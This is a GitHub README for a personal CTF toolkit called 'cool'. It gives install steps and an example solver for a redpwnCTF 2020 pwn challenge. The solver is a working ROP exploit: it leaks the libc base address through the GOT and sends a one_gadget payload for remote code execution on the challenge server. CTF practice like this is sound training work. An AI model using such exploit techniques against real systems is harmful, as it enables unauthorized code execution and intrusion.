 # cool - CTF toolkit for me
[![CI](https://github.com/d2verb/cool/actions/workflows/main.yml/badge.svg)](https://github.com/d2verb/cool/actions)
[![License: MIT](https://img.shields.io/badge/License-MIT-blue.svg)](https://github.com/d2verb/cool/blob/master/LICENSE)

## Prerequisite

`cool` uses `gmpy2`, so you must install some dependencies for it. In Linux case, just run following commands.

```shell
$ sudo apt-get update
$ sudo apt-get install -y libgmp-dev libmpfr-dev libmpc-dev libgmp3-dev
```

## How to install
We don't provide any convenient way to install now. You can install `cool` by downloading the artifact of GitHub Actions (named as `dist`) and using the wheel file in it.

```shell
$ unzip dist.zip
$ pip install ./dist/cool-0.1.0-py3-none-any.whl
```


## Example
This is an example solver to solve the pwn challenge (the-library) in redpwnCTF 2020.

```python
from cool.pwn import elf, remote
from cool.util import p64, u64

e = elf("./tmp/the-library")
l = elf("./tmp/libc.so.6")
p = remote("2020.redpwnc.tf", 31350)

pop_rdi = 0x00400733
one_gadget_offset = 0x10A38C

pld = b"A" * 0x18
pld += p64(pop_rdi)
pld += p64(e.got["read"])
pld += p64(e.plt["puts"])
pld += p64(e.symbols["main"])

# libc base leak
p.sendafter(b"name?\n", pld)
p.recvuntil(b"Hello there: ")
libc_base = u64(p.recv()[29 : 29 + 6] + b"\x00\x00") - l.symbols["read"]
print(f"[*] libc base: 0x{libc_base:x}")

# execute main again & send one_gadget RCE address
one_gadget = one_gadget_offset + libc_base
pld = b"A" * 0x18
pld += p64(one_gadget)

p.sendline(pld)
p.interact()
```

## License
MIT License
